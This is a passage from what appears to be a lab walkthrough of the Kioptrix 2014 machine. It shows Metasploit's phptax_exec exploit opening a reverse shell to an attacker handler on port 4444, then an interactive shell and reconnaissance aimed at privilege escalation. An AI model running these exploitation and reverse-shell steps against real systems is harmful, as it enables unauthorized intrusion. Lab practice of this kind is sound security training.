 ```console



msf exploit(phptax_exec) > set RHOST 192.168.1.159
RHOST => 192.168.1.159

msf exploit(phptax_exec) > set RPORT 8080
RPORT => 8080

msf exploit(phptax_exec) > run

[*] Started reverse TCP double handler on 192.168.1.3:4444 
[*] 192.168.1.1598080 - Sending request...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo JlVllpTK1dBln54a;
[*] Writing to socket A
[*] Writing to socket B
[*] Command: echo 808TsBO0YNvQXIfp;
[*] Reading from sockets...
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "JlVllpTK1dBln54a\r\n"
[*] Matching...
[*] A is input...
[*] Reading from socket B
[*] B: "808TsBO0YNvQXIfp\r\n"
[*] Matching...
[*] A is input...

whoami
Www
```

*In a Hackers Voice* - We're in...

Alright, let's drop a [TTY Shell](http://netsec.ws/?p=337) for some more functionality.

```console
/bin/sh -i
sh: can't access tty; job control turned off
$ id
uid=80(www) gid=80(www) groups=80(www)
```

Now that we have a working TTY Shell, let's do some reconnaissance and see if we can't find a privilege escalation exploit.

```console
$ uname -a

FreeBSD kioptrix2014 9.0-RELEASE FreeBSD 9.0-RELEASE #0: Tue Jan  3 07:46:30 UTC 2012     root@farrell.cse.buffalo.edu:/usr/obj/usr/src/sys/GENERIC  amd6
```
